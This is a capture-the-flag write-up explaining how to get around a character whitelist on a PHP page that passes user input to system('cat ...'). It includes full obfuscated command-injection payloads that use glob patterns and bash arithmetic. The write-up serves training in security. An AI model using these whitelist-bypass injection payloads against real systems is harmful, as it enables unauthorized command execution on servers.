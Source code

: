 # Shero

## Solution 

The goal is to send this to the server:

```bash
cat | readflag sRPd45w_0
```

Since the initial `cat` is provided, only the pipe character onward needs to be included. 

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))

## Thought process

Note: Screenshots in Kali are run with a `bash` shell. Kali uses `zsh` by default.

On visiting the webpage, the webpage shows the following:

```php
Warning: Undefined array key "f" in /var/www/html/index.php on line 2
<?php
    $file = $_GET['f'];
    if (!$file) highlight_file(__FILE__);

    if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {
        die("cat only");
    }

    if (isset($file)) {
        system("cat " . $file);
    }
?>

Deprecated: preg_match(): Passing null to parameter #2 ($subject) of type string is deprecated in /var/www/html/index.php on line 5
```

The webpage takes in a `GET` parameter named `f` that only allows certain whitelisted values.

The line `if (preg_match('#[^.cat!? /\|\-\[\]\(\)\$]#', $file)) {` shows that only these characters are allowed: `. cat!?/|-[]()$`. This can be [verified](http://challs.nusgreyhats.org:12325/?f=gg) by trying a non-whitelisted character in the `f` parameter.

![whitelist only photo](WhitelistOnly.png)

The `system` call seems to suggest some form of bash injection.

The goal is to be able to find something indicative of a flag. Given that the program runs `cat`, this is insufficient to enumerate the files on the server. `ls` or another program is needed. It would also be helpful to have access to `echo` by passing it positional arguments to see what an input gets evaluated as.

Try `/?f=|/???/?c??`, which hopefully evaluates to `/bin/echo`. The `|` pipe character is used so another command can be executed instead of being passed as a positional argument to `cat`.

![echo photo](Echo.png)

It seems `echo` is running, but also running with a few other positional arguments.

It appears that `???/?c??` is expanded to space-delimited files that it has matched. In this case, `echo` was matched first, followed by the other programs. In either case, `echo` works.

Next, try to find where the flag is stored. Try to match `ls` with `/usr/bin/ls` or `/bin/ls`

![ls attempt photo](LsAttempt.png)

`ls` is not the first result. This makes `ls` impossible to match as the first result. However, googling reveals the following alternatives: `/bin/dir`.

![dir attempt photo](BinDirAttempt.png)

`/bin/dir` comes as the second result, with `/bin/cat` coming in first. The second letter can be used to differentiate the two. The result can also be cleaned up by filtering on the first level `bin` folder to return only programs in the `bin` folder.

![successful bin photo](ActualBinDir.png)

The directory structure on the server can now be viewed. The flag can be found at the root directory `/` (after a few trial and error attempts).

![dir root photo](DirRootResult.png)

Note that `/bin/sed` also matches the regex used to match `/bin/dir`, but is provided as a positional argument to `dir`. This will not affect results. The relevant results can be seen after `/:`. Specifically, there is a `flag.txt` and `readflag`.

Would a naive `cat flag.txt` work? Probably not, but worth a try.

![cat flag fail photo](CatFlagFail.png)

There are probably insufficient permissions for the web service process to print the flag directly. The `readflag` file seems to suggest that as well. `cat readflag` and examine its contents.

![cat readflag photo](CatReadflag.png)

`readflag` seems to be an ELF executable (judging from the start of its contents). Using burpsuite, send the exact same `GET` request to dump out the executable file. Then, disassemble the file.

![readflag disassembly photo](ReadflagDisassembly.png)

It seems that `readflag` takes in a positional argument (as seen in `argv[1]`) and is compared to `s1`. `s1` has  the contents `"sRPd45w_0"` as seen in `strcpy(s1, "sRPd45w_0")`. Therefore, the command to be invoked is `cat | readflag sRPd45w_0` to obtain the flag.

However, the password string contains characters that will not pass the whitelist check. Therefore, another way must be used to obtain the string.

Note that the binary file contains the password string needed. Then, programs that could extract data based off certain byte offsets could be used to print the necessary password string.

An accidental discovery was made with `$[]` while experimenting with the bash terminal. However, `$[]` has been deprecated and is succeeded by `$(())`. `$(())` can be used to generate numbers - for example, `$((!a))` gives 1, and `$((a))`. This happens since `a` is unlikely to be a variable that has a set value, so it defaults to 0. Then, when chained with `--`, `$(( $((!a)) -- $((!a)) ))` would give 2. This can be used to generate arbitrary numbers.

With that in mind, `cut` was the first program of choice. It supports a flag specified with `-c`, allowing users to extract specific offsets of characters. However, it did not work for binary data as it often gave inconsistent results. `cut` also works on offsets relative to the start of each new line, which was not what was needed.

![readflag cut photo](ReadflagCut.png)

It should be noted that `cut` can still generate letters, just not consistently when it comes to binary data. In this case, it does not sufficiently work.

`printf` also would not work due to `\` not being whitelisted.

However, `head` and `tail` also has a `-c` flag that allows the first N or last N bytes to be extracted respectively. Find an expression for `head` and `tail`:

![usr bin tail photo](BinTail.png)

![usr bin head photop](BinHead.png)

While `tail` has an exact match, `head` does not. However, this will not pose a problem. `head` will process both files, which can be piped into tail to extract the last character. Since the `readflag` binary comes after the `pmap` argument, it will be last in the output of `head` and allow `tail` to work on it.

![head tail chain photo](HeadTailChain.png)

An expression to print out the passwords have been found. The relevant offsets are:

```bash
head readflag -c 8199 | tail -c 1 #s
head readflag -c 8204 | tail -c 1 #R
head readflag -c 8197 | tail -c 1 #P
head readflag -c 8205 | tail -c 1 #d
head readflag -c 8198 | tail -c 1 #4
head readflag -c 8200 | tail -c 1 #5
head readflag -c 8202 | tail -c 1 #w
head readflag -c 8201 | tail -c 1 #_
head readflag -c 8203 | tail -c 1 #0
```

Combining all previously obtained knowledge, printing `s` would look like this: (some spacebars and newline added for clarity)

```bash
$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #s

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #R

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #P

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #d

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #4

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #5

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #w

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a)))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a))))) #_

$(/?[c-t]?/[a-c]??/[!c][c-t]a? /??a???a? -c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a)))))) | /?[c-t]?/[a-c]??/ta[c-t]? -c$(($((!a)))))) #0
```

Apply the relevant URL encoding and strip unnecessary spaces to get the solution. It runs the equivalent of 

```bash
cat | readflag sRPd45w_0
```

on the main server.

[Solution](http://challs.nusgreyhats.org:12325/?f=|/??a???a?%20$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($((!a))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))-$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($((!a))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a)))))$(/?[c-t]?/[a-c]??/[!c][c-t]a?%20/??a???a?%20-c$(($(($((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))--$((!a))))))$(($(($((!a))--$((!a))))))$(($(($((!a))-$((!a))))))$(($(($((!a))--$((!a))--$((!a))))))%20|%20/?[c-t]?/[a-c]??/ta[c-t]?%20-c$(($((!a))))))


<details>
<summary>Flag</summary>
grey{r35p3c7_70_b45h_m4573r_0dd14e9bc3172d16} 
</details>

## Similar challenges I've seen

[GryphonCTF2017](https://github.com/DISMGryphons/GryphonCTF2017-Challenges/tree/master/challenges/pwn/Bashing), based off 33c3 CTF hohoho.


